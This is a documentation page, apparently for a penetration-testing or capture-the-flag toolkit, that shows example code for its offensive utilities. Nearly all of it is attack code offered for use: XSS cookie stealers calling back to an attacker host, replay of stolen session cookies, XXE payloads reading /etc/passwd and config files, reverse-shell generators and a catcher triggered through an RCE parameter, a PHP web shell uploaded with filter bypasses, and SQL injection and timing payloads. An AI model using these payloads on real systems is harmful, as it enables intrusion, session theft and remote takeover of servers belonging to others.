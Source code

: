 Examples
========

Common POC patterns and code snippets.

Colored Output
--------------

Use colored output for better visibility instead of ``print()``:

.. code-block:: python

   from your_project.utils.output import out

   out.success("Target is vulnerable!")       # [+] Green
   out.error("Connection failed")             # [-] Red
   out.info("Starting exploit")               # [*] Blue
   out.warning("Using default credentials")   # [!] Yellow
   out.debug(f"Response: {response.text}")    # [DEBUG] Magenta
   out.status("Extracting data...")           # [...] Cyan
   out.raw("No prefix")                       # No prefix, no color

Cookie Handling
---------------

Parse and use stolen cookies:

.. code-block:: python

   from your_project.utils.cookie import parse_cookie_string
   from your_project.utils.server_hooks import get_cookie
   import requests

   # Wait for XSS to steal cookie
   cookie_str = get_cookie(timeout=30)
   # Returns: "session=abc123; token=xyz789"

   # Parse for use with requests
   cookies = parse_cookie_string(cookie_str)
   # Returns: {'session': 'abc123', 'token': 'xyz789'}

   # Use in request
   response = requests.get(target_url, cookies=cookies)

XSS Payloads
------------

Generate XSS payloads with automatic callbacks:

.. code-block:: python

   from your_project.utils.xss import img_onerror, blind_xss, cookie_stealer, polyglot

   # Quick test payload
   payload = img_onerror(f"http://{lhost}:8000")

   # Cookie stealer with base64 encoding
   payload = cookie_stealer(f"http://{lhost}:8000")

   # Blind XSS with full context exfil
   payload = blind_xss(f"http://{lhost}:8000", identifier="admin_panel")

   # Polyglot (works in multiple contexts)
   payload = polyglot(f"http://{lhost}:8000")

   # Context-specific
   from your_project.utils.xss import context_specific
   payload = context_specific(f"http://{lhost}:8000", context="attribute")
   # Contexts: html, attribute, js, css

XXE Exploitation
----------------

Generate XXE payloads for file reading and SSRF:

.. code-block:: python

   from your_project.utils.xxe import quick_test, basic_file_read, php_filter_b64

   # Quick test (creates DTD + payload)
   payload = quick_test(f"http://{lhost}:8000", "/etc/passwd")
   # Writes DTD to payloads/xxe/xxe.dtd

   # Basic file read (in-response)
   payload = basic_file_read("/etc/passwd")

   # PHP source via filter
   payload = php_filter_b64("/var/www/html/config.php")

   # Format-specific
   from your_project.utils.xxe import svg_xxe, soap_xxe
   svg_payload = svg_xxe(f"http://{lhost}:8000", "/etc/passwd")

   # Get exfiltrated data
   from your_project.utils.server_hooks import get_exfil
   data = get_exfil(timeout=30)

Reverse Shells
--------------

Generate shells dynamically:

.. code-block:: python

   from your_project.utils.reverse_shells import bash_shell, python_oneliner, quick_bash

   # Generate shell files
   path = bash_shell("10.10.14.5", 4444)
   # Creates: payloads/shells/rev_bash.sh
   # Serve at: http://10.10.14.5:8000/shells/rev_bash.sh

   # Get one-liner for direct RCE
   cmd = python_oneliner("10.10.14.5", 4444)
   # Use in: os.system(cmd) or RCE vulnerability

   # Quick helper with download instructions
   quick_bash(lhost, 4444)  # Prints curl/wget commands

Shell Catcher
-------------

Catch reverse shells directly in Python (no netcat needed):

.. code-block:: python

   from your_project.utils.shell_catcher import ShellCatcher, auto_shell, quick_catch

   # Method 1: Full control
   catcher = ShellCatcher(4444)
   catcher.start()
   trigger_exploit()
   if catcher.wait_for_shell(timeout=30):
       catcher.stabilize()  # Upgrade to PTY
       catcher.interact()   # Interactive shell!

   # Method 2: Context manager (recommended)
   with auto_shell(4444) as catcher:
       trigger_exploit()
       if catcher.shell_caught:
           catcher.stabilize()
           catcher.interact()

   # Method 3: With trigger function
   def trigger():
       # Send reverse shell command to vulnerable target
       cmd = python_oneliner(lhost, 4444)
       # This makes the TARGET execute the reverse shell
       requests.get(f"http://target/rce?cmd={cmd}")

   quick_catch(4444, trigger_func=trigger)

File Upload
-----------

Upload files with bypass techniques:

.. code-block:: python

   from your_project.utils.file_upload import FileUploader, quick_upload

   # Full control
   uploader = FileUploader("http://target/upload")
   result = uploader.upload_with_bypass(
       "shell.php",
       b"<?php system($_GET['cmd']); ?>",
       techniques=["null_byte", "double_extension", "case_variation"]
   )

   # Simple upload
   result = uploader.upload("shell.php", php_code)

   # One-liner
   quick_upload("http://target/upload", "shell.php", php_code)

Available bypass techniques:

* ``null_byte``: filename.php%00.jpg
* ``double_extension``: filename.jpg.php
* ``case_variation``: filename.PHP
* ``mime_mismatch``: Send PHP as image/jpeg

Batch Requests
--------------

Intruder-style fuzzing with concurrency:

.. code-block:: python

   import httpx
   from your_project.utils.batch_request import (
       batch_request_sync,
       generate_param_payloads,
       generate_json_payloads
   )

   # Build base request
   client = httpx.Client()
   base = client.build_request(
       "POST",
       "http://target/api/login",
       json={"username": "test", "password": "test"}
   )

   # Test SQL injection
   sqli = ["' OR '1'='1", "admin'--", "' UNION SELECT NULL--"]
   results = batch_request_sync(
       base,
       payloads=generate_json_payloads("username", sqli),
       validate=lambda r: "dashboard" in r.text,
       concurrency=5,
       proxy="http://127.0.0.1:8080"
   )

   # Find successful payloads
   for r in results:
       if r.matched:
           out.success(f"Valid: {r.payload}")

   # Enumerate IDs
   results = batch_request_sync(
       client.build_request("GET", "http://target/api/user"),
       payloads=generate_param_payloads("id", range(1, 1000)),
       validate=lambda r: r.status_code == 200,
       concurrency=50
   )

Apache Hooks
------------

Read callbacks from Apache logs instead of built-in server:

.. code-block:: python

   from your_project.utils.apache_hooks import get_cookie, get_exfil, get_param

   # Get cookie from Apache logs
   cookie = get_cookie('/var/log/apache2/access.log', timeout=30)
   # Auto-decodes base64, returns most recent

   # Get exfiltrated data
   data = get_exfil('/var/log/apache2/access.log', timeout=30)

   # Get custom parameter
   value = get_param('data', '/var/log/apache2/access.log', timeout=30)

   # Watch in real-time
   from your_project.utils.apache_hooks import watch_log
   watch_log('/var/log/apache2/access.log', params=['cookies', 'exfil'])

CLI watch mode:

.. code-block:: bash

   uv run python -m your_project.utils.apache_hooks watch
   uv run python -m your_project.utils.apache_hooks watch /var/log/apache2/access.log cookies exfil

Network Utilities
-----------------

Get network interfaces and callback IPs:

.. code-block:: python

   from your_project.utils.network import get_interfaces, get_callback_host

   # Get all interfaces
   interfaces = get_interfaces()
   # {'eth0': '10.10.14.5', 'tun0': '10.10.16.2', ...}

   # Get best callback IP (prioritizes VPN)
   lhost = get_callback_host()
   # Returns: '10.10.16.2' (or best available)

Encoding Utilities
------------------

Common encoding operations:

.. code-block:: python

   from your_project.utils.encoding import (
       b64_encode, b64_decode,
       url_encode, url_decode,
       to_hex, from_hex,
       html_encode, html_decode
   )

   # Base64
   encoded = b64_encode("admin:password")
   decoded = b64_decode("YWRtaW46cGFzc3dvcmQ=")

   # URL
   safe = url_encode("../../etc/passwd")
   unsafe = url_decode("%2e%2e%2f")

   # Hex
   hex_str = to_hex("ABCD")      # "41424344"
   text = from_hex("41424344")    # "ABCD"

HTML Parsing
------------

Easy BeautifulSoup wrapper:

.. code-block:: python

   from your_project.utils.html_parser import HTMLParser, quick_parse, parse_response

   # Parse response
   parser = HTMLParser.from_response(response)

   # Find elements
   form = parser.find_by_id("login-form")
   inputs = parser.find_all_by_class("form-input")
   links = parser.find_links()

   # CSRF tokens
   csrf = parser.find_csrf_token()
   all_tokens = parser.find_all_csrf_tokens()

   # Forms
   forms = parser.find_forms()
   for form in forms:
       data = parser.extract_form_data(form)
       print(f"Action: {form.get('action')}, Data: {data}")

   # CSS selectors
   hidden = parser.css_select("input[type='hidden']")

   # Dump helpers
   parser.dump_forms()
   parser.dump_links()

Timing Attacks
--------------

For blind time-based exploitation:

.. code-block:: python

   from your_project.utils.timing import time_request

   def attempt(payload):
       return requests.get(f"http://target?id={payload}")

   duration = time_request(attempt, "1' AND SLEEP(5)--")
   if duration > 5:
       out.success("Vulnerable to time-based SQLi!")

Zip Utilities
-------------

Create and extract zip files:

.. code-block:: python

   from your_project.utils.zip_util import quick_zip, zip_multiple, extract_zip

   # Quick zip
   quick_zip("payloads/", output="payloads.zip")

   # Zip multiple files
   zip_multiple(
       ["exploit.py", "shell.php", "config.json"],
       output_path="poc.zip"
   )

   # Extract safely (prevents zip slip)
   extract_zip("archive.zip", extract_to="./extracted")
